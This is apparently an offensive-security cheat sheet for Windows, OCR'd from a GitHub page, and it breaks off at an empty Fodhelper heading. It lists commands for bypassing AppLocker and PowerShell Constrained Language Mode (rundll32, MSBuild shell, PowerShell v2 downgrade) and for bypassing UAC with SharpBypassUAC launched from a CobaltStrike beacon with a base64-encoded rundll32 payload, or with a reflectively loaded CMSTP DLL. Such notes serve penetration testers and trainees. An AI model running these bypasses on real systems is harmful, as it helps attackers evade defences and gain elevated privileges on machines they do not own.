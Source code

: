 * Get Policy
   * `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
* Bypass
   * `C:\Windows\Tasks\`
   * `rundll32`
   * `https://lolbas-project.github.io/`


## Constrained Language Mode (CLM)

* Check LanguageMode
   * `$ExecutionContext.SessionState.LanguageMode`
   * `ConstrainedLanguage`
* PowerShell Downgrade
   * `powershell -v 2`
* [Bypass](https://github.com/calebstewart/bypass-clm)
* [Custom Runspaces](https://github.com/mgeeky/Stracciatella)
* [PowerShdll](https://github.com/p3nt4/PowerShdll)
   * `rundll32.exe PowerShdll.dll,main`
* [MSBuild](https://github.com/Cn33liz/MSBuildShell)
   * `C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\Windows\Tasks\MSBuildShell.csproj`


## UAC Bypass (C#)

* https://github.com/FatRodzianko/SharpBypassUAC
* Generate EncodedCommand
   * `echo -n 'cmd /c start rundll32 c:\\users\\public\\beacon.dll,Update' | base64`
* Use SharpBypassUAC e.g. from a CobaltStrike beacon
   * `execute-assembly /opt/SharpBypassUAC/SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IHJ1bmRsbDMyIGM6XHVzZXJzXHB1YmxpY1xiZWFjb24uZGxsLFVwZGF0ZQ==`
* Check
   * `whoami /groups`
   * `Mandatory Label\High Mandatory Level`


## UAC Bypass (CMSTP)

* https://github.com/expl0itabl3/uac-bypass-cmstp
* Compile Source.cs
   * `Add-Type -TypeDefinition ([IO.File]::ReadAllText("C:\Windows\Tasks\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "C:\Windows\Tasks\test.dll"`
* Load DLL
   * `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("C:\Windows\Tasks\test.dll"))`
* Execute elevated command
   * `[CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")`
* Check
   * `whoami /groups`
   * `Mandatory Label\High Mandatory Level`


## UAC Bypass (Fodhelper)
